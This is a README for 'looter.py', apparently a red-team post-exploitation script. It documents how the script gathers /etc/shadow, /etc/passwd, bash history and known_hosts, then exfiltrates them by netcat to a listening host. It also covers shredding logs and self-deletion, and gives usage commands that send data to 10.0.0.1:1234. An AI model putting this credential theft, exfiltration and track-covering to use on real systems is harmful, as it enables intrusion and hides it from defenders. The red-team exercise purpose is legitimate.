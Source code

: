 #Module 1 - looter.py 
##Idea
On the 842 Ideas Spreadsheet, Andrew Kramer suggested the idea of creating an automated looting script that will collect relevant data for someone who gained root access to a box.  This is great for red team exercises where the attacker wants to be able to quickly grab useful files and data before getting booted off the system.

##Purpose
This script will crawl through a box and quickly collect useful information for an attacker.  The script will determine which OS it is on to ensure compatibility before attempting to collect anything.  The nest egg (collection stash) location will be in the present working directory of the script unless specified by the user.

This script makes an attempt is made to copy relevant files including but not limited to /etc/passwd, /etc/shadow, ~/.bash_history, known_hosts etc to the nest egg location.  Once everything is collected, the files are prepared and zipped for exfiltration.  Currently, the script uses netcat to create a network connection to a listening post for exfiltration.

The goal is to be discreet and the script will shred logs, avoid writing to bash_history, and cover its own tracks after performing collections.

This Python script has been tested on Kali Linux 64 bit with Python 2.7.12.

##Help Screen 
```
usage: looter.py [-h] [-a] [-ne] [-d PATH] [-t TARGET] [-p PORT] [-r]

Looter script, collects juicy data for malicious use.

optional arguments:
  -h, --help            show this help message and exit
  -a, --all             perform all collections
  -ne, --noexfil        disable exfil feature, drop tar file in dir
  -d PATH, --dir PATH   specify nest egg path
  -t TARGET, --target TARGET 
  						specify exfil ip address (IPv4 only)
  -p PORT, --port PORT  specify exfil port number
  -r, --remove          remove script after execution
```
##Usage Examples

A collection without any exfiltration can be done with the command below:

```
python ./looter.py -a -ne
```

A collection with exfiltration to a specified IP address and port can be done with the command below:

```
python ./looter.py -a -t 10.0.0.1 -p 1234
```

Specifying the -r flag will cause the script to be destroyed after execution to cover its tracks:

```
python ./looter.py -a -t 10.0.0.1 -p 1234 -r
````

Specifying the -d flag with a valid path will change the default nest egg location:
```
python ./looter.py -a -t 10.0.0.1 -p 1234 -d ~/Desktop/
```

##Known Issues
* Random bug where user specified path sometimes causes zipping to fail
* Not sure how "discreet" the script is yet, plenty of room for improvement

##Future Work
* Continue to expand list of useful / interesting files to capture
* Search ssh known_hosts file and attempt to log into entries
* Dump any databases into a file
* Run a quick internal network scan and output into a file

##Long Term Goals
* Attempt privilege escalation
* Attempt to install a basic backdoor
* Provide OS compatibility across OSX, Windows, and *nix

##Resources
https://pymotw.com/2/argparse/

http://stackoverflow.com/questions/3718657/how-to-properly-determine-current-script-directory-in-python

http://stackoverflow.com/questions/110362/how-can-i-find-the-current-os-in-python

http://stackoverflow.com/questions/2032403/how-to-create-full-compressed-tar-file-using-python

http://stackoverflow.com/questions/4417546/constantly-print-subprocess-output-while-process-is-running

https://docs.python.org/2/library/os.path.html#os.path.basename

http://stackoverflow.com/questions/29065781/how-can-i-get-a-python-program-to-kill-itself-using-a-command-run-through-the-mo

